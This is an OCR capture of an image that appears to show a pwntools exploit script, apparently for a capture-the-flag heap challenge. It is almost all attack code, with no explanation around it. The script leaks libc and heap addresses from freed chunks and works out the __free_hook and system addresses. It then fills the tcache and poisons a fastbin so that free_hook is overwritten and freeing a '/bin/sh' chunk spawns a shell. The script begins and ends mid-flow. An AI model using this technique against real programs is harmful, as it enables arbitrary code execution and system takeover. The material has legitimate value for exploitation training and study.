 ``` python
    c.sendlineafter("Length of command:", str(script_len))
    c.sendlineafter("Command:", script)

    c.sendlineafter("$", "run " + cmd)


record(10,10,0x500, "A")
record(10,10,0x500, "b")
delMem(0)
delMem(1)
telescope(0)


# leak bin
c.recvuntil("\n") # drop
heap_bin = c.recvuntil("\x20")[:-1] + b'\0\0'
assert(len(heap_bin) == 8)
heap_bin = u64(heap_bin)
tcache0x30_bin = heap_bin + (0x7fa11b7d3069-0x7fa11b7c6be0)
libc_base = heap_bin - (0x7f9a4a8e3be0 - 0x00007f9a4a6f8000)
malloc_hook = libc.symbols['__malloc_hook'] + libc_base
free_hook = libc.symbols['__free_hook'] + libc_base
system_addr = libc.symbols['system'] + libc_base
print(hex(heap_bin))
print(hex(tcache0x30_bin))
print(hex(libc_base))
print(hex(malloc_hook))



# fill tcache
for i in range(7):
    record(10,10,0x20, "C")

for i in range(2,9):
    delMem(i)

# leak heap base
telescope(6)
c.recvuntil("\n") # drop
heap_base = c.recvuntil("\x20")[:-1] + b'\0\0'
assert(len(heap_base) == 8)
heap_base = u64(heap_base) & 0x0000fffffffff000
print(hex(heap_base))


# fastbin loop FILO
record(10,10,0x40, '123')

delMem(6)
delMem(8)

#target_malloc_address = tcache0x30_bin

record(10,10,0x20, "/bin/sh")
record(10,10,0x20, "/bin/sh")
record(10,10,0x20, "/bin/sh")

record_raw(10,10,0x20, p64(free_hook-0x10) +b'\n')
record(10,10,0x20, "/bin/sh")

record(10,10,0x40, "/bin/sh")

```